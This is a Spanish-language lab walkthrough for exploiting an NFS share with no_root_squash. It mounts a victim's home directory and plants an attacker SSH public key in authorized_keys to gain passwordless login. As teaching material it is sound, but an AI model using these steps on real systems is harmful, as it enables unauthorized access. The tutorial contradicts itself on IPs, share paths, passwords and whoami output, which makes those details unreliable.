


# Escalado de privilegio explotando ***no_root_squash***.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***ubu_srv_01***

***REQUIERE HABER REALIZADO 4. Laboratorio 04-D: ***Enumeración NFS***. Ejercicio - Configuración de un share de NFS.


## Convertirse en root por una NFS mal configurada.
Como debemos tener claro, un uso de NFS no seguro puede conducir a situaciones no deseadas. Después de aprender a enumerar las shares NFS (tal y como se vió en el ***lab-04-D***) se determina que existe una share que tiene habilitada la configuración ***no_root_squash***. Este parámetro permite al usuario ***root*** de la máquina cliente acceder al share. Como ya sabemos, trabajar con un usuario ***root*** es una mala idea.

En la máquina ***Kali*** ejecutamos el siguiente comando.
```
nmap -sV -p 111 --script=nfs-showmount 192.168.20.60
```

Cuya salida demuestra que se está compartiendo el directorio ***/home/antonio*** en dicha máquina. 

Esta tecnica se emplea cuando se necesita escalar privilegios, es decir, el actor de la amenaza ya posee una credencial de usuario en la máquina víctima. La credencial puede haber sido capturada en un ataque previo o, se trata de un ***insider***. En cualquier caso se desea ser ***root*** en la máquina NFS.

Para hacer una simulación real, vamos a crear un usuario nuevo, sin permisos de ***root***, en la máquina ***ubu_srv_01***, por medio del siguiente comando.
```
sudo useradd luke
``` 

Y por contraseña ponemos ***UsaLaLFuerza***, por medio de este comando.
```
sudo passwd luke
```

Iniciamos sesión con el nuevo usuario. Primero cerramos la sesión del usuario ***antonio***.
```
logout
```

E iniciamos sesión con ***luke***/***UsaLaFuerza***. Compromamos quien somos.
```
whoami
```


La salida mostrará que es un usuario convencional (***antonio***) que no es ***root*** en esa máquina.


El siguiente paso es intentar montar ese share.

Creamos una carpeta de trabajo temporal.
```
mkdir /tmp/directorio-home-de-la-victima
```

Montamos el share.
```
sudo mount -t nfs 192.168.20.13:/home/vagrant /tmp/directorio-home-de-la-victima
```

Comprobamos que se ha montado el share.
```
df -k
```

El resultado debe ser similar al mostrado en la siguiente imagen.


El punto de montaje se corresponde con el directorio raíz del usuario. Vamos a listarlo porque pretendemos encontrar un directorio muy "interesante" como muestra la imagen.
Nota: Mostramos archivos y carpetas ocultos.

```
ls -l -a /tmp/directorio-home-de-la-victima
```



El directorio oculto ***ssh*** almacena las claves ***públicas***, ***privadas*** y ***autorizadas*** para poder hacer un ***login ssh*** que no requiere contraseña.

Podemos ver los archivos que contiene de la siguiente forma.
```
sudo ls -a -l /tmp/directorio-home-de-la-victima/.ssh
```

La técnica que se usa es la de crear en la máquina de ataque una pareja de claves público/privada. A continuación (por tener permiso ***rw*** en el share) agregaremos la ***clave pública*** al archivo ***authorized_keys*** de la víctima.

Creamos la pareja de claves. En la máquina ***kali*** ejecutamos el comando.
Nota: Pulsamos ***ENTER*** por cada pregunta que nos formule.
```
ssh-keygen
```

El archivo que contiene la clave pública es.
```
ls ~/.ssh/id_rsa.pub
```

Y su contenido es.
```
cat ~/.ssh/id_rsa.pub
```

Ahora simplemente tenemos que añadir la ***clave pública*** al archivo ***authorized_keys*** de la víctima.
```
sudo sh -c "cat /home/antonio/.ssh/id_rsa.pub >>  /tmp/directorio-home-de-la-victima/.ssh/authorized_keys"
```

Podemos comprobar como se ha añadido la clave pública al final del archivo de claves autorizadas.
```
sudo cat /tmp/directorio-home-de-la-victima/.ssh/authorized_keys
```

Lo único que queda por hacer es comprobar que se puede acceder al equipo de la víctima por ***ssh***.
Nota: ***~/.ssh/id_rsa*** es el archivo que contiene la ***clave privada*** que hemos creado antes.
```
ssh -i ~/.ssh/id_rsa antonio@192.168.20.13
```

En la imagen podemos ver como se conecta a través de ***ssh***. Respondemos ***yes*** para realizar la conexión.




